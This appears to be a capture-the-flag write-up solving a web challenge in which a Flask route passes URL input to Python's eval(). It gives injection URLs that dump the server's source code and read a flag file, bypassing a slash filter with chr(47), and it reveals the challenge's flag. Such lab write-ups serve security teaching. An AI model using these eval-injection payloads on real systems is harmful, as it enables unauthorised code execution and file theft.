

#### Challenge:

Hi, packet inspector,

the AI has detected your previous breach and has improved the security measures. New streamlining portal is on [http://user-info-ng.mysterious-delivery.tcc](http://user-info-ng.mysterious-delivery.tcc).

Your task is to break into the improved web and find again interesting information on the server.

May the Packet be with you!

---

#### Solution:

This seems to be the same as the [previous challenge](../Streamlining_portal/README.md) but supposedly with some extra protection.

Good news is, that we can still dump the code of the script with:

```text
http://user-info-ng.mysterious-delivery.tcc/hello/"+str(open(__file__).read())+"
```

which gives:

```python
from flask import Flask, Blueprint, redirect, render_template, abort
bp = Blueprint("app", __name__)

def create_app():
    app = Flask(__name__)
    app.register_blueprint(bp, url_prefix="/")
    return app @bp.route('/hello/<userstring>')

def hello(userstring):
    if 'cd ' in userstring:
        abort(403)
    message = eval('"Hello ' + userstring + '"')
    return render_template('index.html', message=message) @bp.route('/')

def redirect_to_user():
    return redirect("/hello/user", code=302)
```

Comparison with previous challenge:




It seems we cant use `cd` due to explicit condition and `/` because of the change in routing (more info on that [here](https://stackoverflow.com/questions/15117416/capture-arbitrary-path-in-flask-route)).
Furthermore, for some reason I am not able to explain, I was not able to get content using the `os.popen().read()` exploit.

All this doesn't really matter, because the path to the flag stayed the same as in previous example and only thing to do, was to obfuscate slashes (`/`) with their ASCII value using `'+chr(47)+'`, to get around the change in routing.

So the exploit for this challenge that gets the flag is:

```text
http://user-info-ng.mysterious-delivery.tcc/hello/"+str(open('.'+chr(47)+'FLAG'+chr(47)+'flag.txt').read())+"
```

---

<details><summary>FLAG:</summary>

```
FLAG{hvIM-3aty-R39h-dOZ4}
```

</details>
<br/>
